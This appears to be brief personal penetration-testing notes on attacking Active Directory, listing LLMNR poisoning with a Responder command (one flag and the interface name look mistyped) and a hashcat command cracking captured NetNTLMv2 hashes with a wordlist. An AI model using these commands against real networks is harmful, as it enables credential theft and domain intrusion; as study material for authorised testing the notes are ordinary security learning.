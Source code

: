 # Attacking AD
 `initial Attack Vectors`

## First Attack
` LLMNR Poisoning:
  => Responder 
  => responder -T etho0 -rdwrv
  
  # Cracking hashcat:
    =>hashcat -m 5600 ntlmhash.txt rockyou.txt --force
`
